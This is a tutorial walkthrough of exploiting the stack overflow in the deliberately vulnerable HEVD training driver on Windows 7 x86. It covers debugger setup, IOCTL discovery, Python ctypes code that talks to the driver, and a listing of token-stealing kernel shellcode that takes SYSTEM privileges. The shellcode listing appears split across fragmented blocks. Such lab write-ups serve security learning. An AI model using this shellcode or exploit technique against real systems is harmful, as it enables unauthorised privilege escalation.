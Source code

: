 ```yaml
---
layout: single
title: HEVD - Windows 7 x86 Kernel Stack Overflow
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Stack-based vulnerability.

----

HEVD (HackSys Extreme Vulnerable Driver) is the Vulnserver of Kernel Land, it's a Windows kernel driver that is prone to various types of vulnerabilities, everything from basic Stack-overflows and UAF vulnerabilities, to Pool-overflows. HEVD is the de-facto standard for anyone who is looking to pursue the Offsec OSEE certification or for any security/vulnerability researcher who wants to learn kernel exploitation and kernel debugging. 

- [https://github.com/hacksysteam/HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)

*A strong User-mode exploitation history is recommended before continuing with kernel exploit development*

----

**Setting up our kernel debugging environment**

For Windows kernel debugging you will need to set up two separate virtual machines and establish one as the host and one as the victim, you will bind them together with a virtual Serial port, instead of stopping and debugging a single program, this will allow for managing and debugging the entire victim VM (as if it were an application).

1. Set up a Windows 7 x86 VM
2. Clone the VM -> and name the clone as the victim VM which will run HEVD
3. Set up the virtual Serial port, boot up the host VM in normal mode
4. Boot up the victim VM (debugging mode on startup)

A full tutorial on this can be found [online](https://medium.com/@eaugusto/setting-up-a-windows-7-virtualbox-vm-for-kernel-mode-debugging-367911889316) and one Google search away.

![KD debugging enviroment](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/debugKDenv.png)

----

**Driver analysis & IOCTL discovery**

A full blog post on the detailed specifics about utilizing IOCTLs for Windows kernel exploitation can be found [here](https://fullshade.github.io/windows/internals/2020/02/01/IOCTL-kernel-drivers.html), once you dive into the world of Windows kernel I/O, it gets very complicated, so the *what is an IOCTL* gets its own post.

But just to recap, an IOCTL is a system call code that allows for the communication from a user-mode application to a kernel-mode driver. To establish a communication session with the Kernel-mode HEVD device driver, we need to locate an IOCTL.

We can use the same technique and method as mentioned in the above blog post link. We can use IDA Pro and the `win_driver_plugin` IDA plugin to automate our IOCTL discovery (Automation will not always work and can easily generate false positives.) Static code analysis for the IOCTL discovery is also possible within the HEVD driver.


1. Load and install the IDA Pro plugin into the plugin folder
2. Edit > IOCTL > Find Dispatch (CTRL+ALT+S)
3. Right Click > Driver Plugin > Decode all IOCTLs in function

![ioctl auto](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/IDA-ioctls-plugin.png)

The `0x222003h` IOCTL code is what we can use for communication. This can also be discovered manually by viewing the `DriverEntry` function > to the `IrpDeviceIoCtlHandler` function which shows us the IOCTL code. Also, since HEVD is open-source, you can view the IOCTL definition macro in its source code and calculate each IOCTL with that.

----

**Communicating with the driver**

Since this exploit will be implementing in Python, we will be using the ctypes library, which allows for Windows Win32 API function using via utilizing the various DLL's that the functions are apart of. If your exploit is in C/C++ you just need to include the <windows.h> library to use the API function directly as the MSDN documentation gives.

We can use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) function to establish a handler to the kernel-mode driver. CreateFileA is denoted by Microsofts MSDN docs as a function that allows for handler distribution from kernel-mode to allow for cross communications.

```python
    kernel32      	  = windll.kernel32

    lpFileName            = "\\\\.\HackSysExtremeVulnerableDriver" # --> Device driver
    dwDesiredAccess       = 0xC0000000 # --> (Generic_Read (0x80000000) + Generic_Write (0x40000000))
    dwShareMode           = 0
    SecurityAttributes    = None
    dwCreationDisposition = 0x3        # --> (Open_Existing)
    dwFlagsAndAttributes  = 0
    hTemplateFile         = None

    device_handle = kernel32.CreateFileA( 
    	lpFileName,
	dwDesiredAccess,
	dwShareMode,
	SecurityAttributes,
	dwCreationDisposition,
	dwFlagsAndAttributes,
	hTemplateFile
    )
```

After obtaining a handler to the driver and opening up the initial communication pathway, we can use the [DeviceIoControl](https://docs.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) function to pass data through the handler and to the driver.

```python
    hDevice			= device_handle	  # --> The handler provided by CreateFileA
    dwIoControlCode		= 0x222003	  # --> (IOCTL code)
    lpInBuffer			= id_payload      # --> ID of our payload (token stealing shellcode)
    nInBufferSize		= bufSize         # --> buffer size of out payload
    lpOutBuffer			= None
    nOutBufferSize		= 0
    lpBytesReturned		= byref(c_ulong())
    pOverlapped			= None

    kernel32.DeviceIoControl(
    	hDevice,		# --> HANDLE
    	dwIoControlCode,	# --> DWORD
    	lpInBuffer,		# --> LPVOID
    	nInBufferSize,		# --> DWORD
    	lpOutBuffer,		# --> LPVOID
    	nOutBufferSize,		# --> DWORD
    	lpBytesReturned,	# --> LPDWORD
    	pOverlapped		# --> LPOVERLAPPED
    )
```


**Token stealing shellcode payload**

The payload being utilized is a token stealing shellcode payload, once the attacker has code execution in kernel-mode, they can provide this shellcode to steal a System level payload.

```assembly
token_stealing_shellcode = (
    "\x60"                            ; Save registers state
    "\x64\x8b\x80\x24\x01\x00\x00"    ; Get nt!_KPCR.PcrbData.CurrentThread
				      ; _KTHREAD is located at FS:[0x124]
    "\x8b\x40\x50"                    ; Get nt!_KTHREAD.ApcState.Process
    "\x89\xc1"                        ; Copy current process _EPROCESS structure
    "\xba\x04\x00\x00\x00"            ; WIN 7 SP1 SYSTEM process PID = 0x4
    "\x8b\x80\xb8\x00\x00\x00"        ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    "\x2d\xb8\x00\x00\x00"            

    "\x39\x90\xb4\x00\x00\x00"        ; Get nt!_EPROCESS.UniqueProcessId
    "\x75\xed"                        

    "\x8b\x90\xf8\x00\x00\x00"        ; Get SYSTEM process nt!_EPROCESS.Token
    "\x89\x91\xf8\x00\x00\x00"        ; Get current process token
    "\x61"                            
```

```
    "\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
    "\x5D"                            # pop ebp
    "\xC2\x08\x00"                    # ret 8
)
```

```python
    shellcode_address = id(token_stealing_shellcode) + 20
    print("[+] Shellcode payloads address: %s" %shellcode_address)
    print("[+] Stealing NT Authority\System token...")
    return shellcode_address
```
Returning the id of our payload is required as a parameter for the `DeviceIoControl` function used above.

**Getting NT Authority \ SYSTEM**

![cmd shell as system](https://raw.githubusercontent.com/x00pwn/Windows-Kernel-Exploitation-HEVD/master/images/HEVD_stack-overflow.png)

## Conclusion

Conclusively, in this post we covered the basic exploitation of a standard stack-based buffer overflow that resides in a third-party kernel driver.  Utilizing some basic input output functions that allows us to communicate and send data to the driver, we had the ability to send data that crashed the application, and then we utilize a token stealing shellcode payload, that Traverse the EPROCESS  data structure to obtain a system level access token,  while using that stolen token to spawn a new system level shell.
